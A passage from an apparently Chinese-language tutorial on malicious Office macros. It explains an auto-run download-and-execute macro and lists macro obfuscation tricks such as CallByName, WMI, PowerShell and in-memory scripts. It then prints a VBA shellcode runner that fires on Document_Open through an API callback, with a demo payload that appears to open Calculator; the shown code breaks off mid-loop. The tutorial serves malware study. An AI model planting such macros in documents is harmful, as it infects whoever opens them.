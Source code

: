 这里使用的URLDownloadToFileA来自于系统dll urlmon.dll<br>
在第六行定义了名为Auto_Open的函数，该函数在文档打开的时候会自动运行（如果允许文档执行宏）<br>
第八行滴位置，指明了下载文件的存放路径和名称<br>
第9行的地方调用了URLDownloadToFileA函数，下载文件保存到本地<br>
第10行的位置执行下载的payload

### <a class="reference-link" name="%E7%AE%80%E5%8D%95%E7%9A%84%E6%B7%B7%E6%B7%86%E3%80%81%E5%8F%8D%E8%B0%83%E8%AF%95%E6%8A%80%E6%9C%AF"></a>简单的混淆、反调试技术

1.利用ActiveX触发器<br>
一个典型的例子：[利用InkPicture1_Painted](http://www.greyhathacker.net/?p=948)<br>
2.隐藏数据<br>
3.用于隐藏数据的Word文档变量，文档变量可以存储多达64KB的数据，隐藏在MS Word用户界面中。<br>
4.通过CallByName混淆函数调用<br>[https://msdn.microsoft.com/en-us/library/office/gg278760.aspx](https://msdn.microsoft.com/en-us/library/office/gg278760.aspx)<br>
5.使用WMI运行命令<br>
6.调用powershell<br>
7.运行VBScript或者Jscript，运行VBS/JS代码而不将文件写入磁盘<br>
可参考文档：[https://docs.microsoft.com/en-us/previous-versions/visualstudio/visual-studio-6.0/aa227637(v=vs.60)?redirectedfrom=MSDN](https://docs.microsoft.com/en-us/previous-versions/visualstudio/visual-studio-6.0/aa227637(v=vs.60)?redirectedfrom=MSDN)<br>
代码示例：[https://www.experts-exchange.com/questions/28190006/VBA-ScriptControl-to-run-Java-Script-Function.html](https://www.experts-exchange.com/questions/28190006/VBA-ScriptControl-to-run-Java-Script-Function.html)<br>
8.通过API回调运行shellcode

一例通过VBA运行shellcode的实例：

```
Private Declare Function createMemory Lib "kernel32" Alias "HeapCreate" (ByVal flOptions As Long, ByVal dwInitialSize As Long, ByVal dwMaximumSize As Long) As Long
Private Declare Function allocateMemory Lib "kernel32" Alias "HeapAlloc" (ByVal hHeap As Long, ByVal dwFlags As Long, ByVal dwBytes As Long) As Long
Private Declare Sub copyMemory Lib "ntdll" Alias "RtlMoveMemory" (pDst As Any, pSrc As Any, ByVal ByteLen As Long)
Private Declare Function shellExecute Lib "kernel32" Alias "EnumSystemCodePagesW" (ByVal lpCodePageEnumProc As Any, ByVal dwFlags As Any) As Long

Private Sub Document_Open()

Dim shellCode As String
Dim shellLength As Byte
Dim byteArray() As Byte
Dim memoryAddress As Long
Dim zL As Long
zL = 0
Dim rL As Long

shellCode = "fce8820000006089e531c0648b50308b520c8b52148b72280fb74a2631ffac3c617c022c20c1cf0d01c7e2f252578b52108b4a3c8b4c1178e34801d1518b592001d38b4918e33a498b348b01d631ffacc1cf0d01c738e075f6037df83b7d2475e4588b582401d3668b0c4b8b581c01d38b048b01d0894424245b5b61595a51ffe05f5f5a8b12eb8d5d6a018d85b20000005068318b6f87ffd5bbf0b5a25668a695bd9dffd53c067c0a80fbe07505bb4713726f6a0053ffd563616c632e65786500"

shellLength = Len(shellCode) / 2
ReDim byteArray(0 To shellLength)

For i = 0 To shellLength - 1

    If i = 0 Then
        pos = i + 1
    Else
        pos = i * 2 + 1
    End If
```